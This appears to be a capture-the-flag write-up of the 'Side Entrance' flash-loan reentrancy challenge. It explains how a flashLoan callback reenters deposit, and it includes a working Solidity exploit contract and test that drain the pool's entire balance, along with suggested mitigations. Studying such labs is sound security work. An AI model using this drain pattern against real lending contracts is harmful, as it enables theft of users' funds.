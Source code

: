 ## Cross-function reentrancy between `flashloan` and `deposit` function

the `execute` callback on `flashLoan` can reenter the system by calling `deposit` to register the borrowed funds under the name of the caller, who can posteriorly withdraw such funds. 
The flashLoan will not revert because it is expecting its own balance to be the same at the start and end of the transaction, no matter the how (through direct ETH transaction or through deposit function). 

### Recommended mitigation
- Use reentrancy guards on deposit and withdraw function.
- Use transferFrom to recover the funds instead of waiting for the borrower to transfer them back. 


### PoC
The borrower contract:
```solidity
contract Borrower is IFlashLoanEtherReceiver {
    SideEntranceLenderPool pool;
    address recovery;
    
    constructor (SideEntranceLenderPool _pool, address _recovery) {
        pool = _pool;
        recovery = _recovery;
    }

    // 1. Request the flash loan
    function igniteFlashLoan() public {
        pool.flashLoan(address(pool).balance);
    }
    // 2. The pool will trigger the execute call back, that reenter to deposit the borrowed funds
    function execute() payable external {
        pool.deposit{ value:msg.value }();
    }

    // 3. Withdraw the funds
    function recover() public {
        pool.withdraw();
    }

    // 4. When receive transfer it to the recovery account
    receive() external payable {
        recovery.call{ value: msg.value }('');
    }
}
```

Then use it on solution testcase:
```solidity
    function test_sideEntrance() public 
    checkSolvedByPlayer 
    {
        Borrower borrower = new Borrower(pool, recovery);
        borrower.igniteFlashLoan();   
        borrower.recover();
    }
```